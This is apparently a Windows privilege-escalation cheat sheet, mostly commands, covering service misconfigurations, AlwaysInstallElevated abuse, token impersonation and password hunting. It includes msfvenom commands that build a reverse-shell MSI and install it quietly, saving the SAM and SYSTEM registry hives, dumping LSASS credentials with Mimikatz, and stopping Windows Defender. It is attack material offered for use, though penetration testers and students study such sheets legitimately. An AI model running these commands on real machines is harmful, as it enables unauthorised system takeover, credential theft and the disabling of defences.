 ### 1. **Basic Enumeration**

```powershell
whoami /priv
whoami /groups
whoami /all
systeminfo
hostname
echo %USERNAME%
echo %USERDOMAIN%
echo %PROCESSOR_ARCHITECTURE%
```

```powershell
# List hotfixes
wmic qfe get Caption,Description,HotFixID,InstalledOn

# Installed programs
wmic product get name,version
```

---

### 2. **Check for Unquoted Service Paths**

```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
sc qc <servicename>
```

Exploit: Place malicious `.exe` in writable path before the space.

---

### 3. **Weak Service Permissions**

```powershell
accesschk64.exe -uwcqv "Authenticated Users" *
accesschk64.exe -uwcqv "Everyone" *
accesschk64.exe -uwcqv "Users" *
```

Exploit: Replace binary or change service config.

```powershell
sc config <service> binPath= "C:\path\to\rev.exe"
sc stop <service>
sc start <service>
```

---

### 4. **AlwaysInstallElevated (MSI abuse)**

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If both = `1`, exploit:

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi > evil.msi
msiexec /quiet /qn /i C:\evil.msi
```

---

### 5. **Registry AutoRun / Autorun Hijacks**

```powershell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

Writable keys = persistence + priv escalation.

---

### 6. **Scheduled Tasks**

```powershell
schtasks /query /fo LIST /v
icacls "C:\path\to\task.exe"
```

If writable, replace binary.

---

### 7. **DLL Hijacking**

- Search for services/apps loading DLLs from writable paths:
    

```powershell
procmon.exe   # (filter by PATH NOT FOUND for .dll)
```

- Place malicious DLL.
    

---

### 8. **Hotfix / Kernel Exploits**

Check system info → Google or use **Windows Exploit Suggester**:

```powershell
systeminfo > sysinfo.txt
python windows-exploit-suggester.py --database 2025-08-20-mssb.xls --systeminfo sysinfo.txt
```

---

### 9. **Token Impersonation / SeImpersonatePrivilege**

```powershell
whoami /priv
```

If `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` is enabled → juicy.  
Exploit with **PrintSpoofer**:

```powershell
PrintSpoofer64.exe -i -c cmd.exe
```

---

### 10. **Password Hunting**

```powershell
# Registry SAM & SYSTEM
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save

# Search for passwords
findstr /si password *.txt *.ini *.xml *.config
```

Common places:

- Unattend.xml (`C:\Windows\Panther\`)
- Group Policy Preference files (`c:\ProgramData\Microsoft\Group Policy\History\`)
- Mimikatz dump creds from LSASS:

```powershell
mimikatz.exe
sekurlsa::logonpasswords
```

---

### 11. **Insecure Services (SYSTEM running user programs)**

```powershell
tasklist /svc
netstat -ano
```

Look for apps running as SYSTEM but writable by user.

---

### 12. **AV & Defender Evasion**

Disable temporarily if perms allow:

```powershell
sc stop WinDefend
```

---

## **Key Tools**

- `winPEAS.exe` → full enumerat
- `Seatbelt.exe` → system survey
- `Accesschk.exe` → permissions
- `Mimikatz` → creds dump    
- `PrintSpoofer` / `JuicyPotato` / `RoguePotato` → token abuse
- `Sherlock.ps1` / `Watson.exe` → vuln checks

---
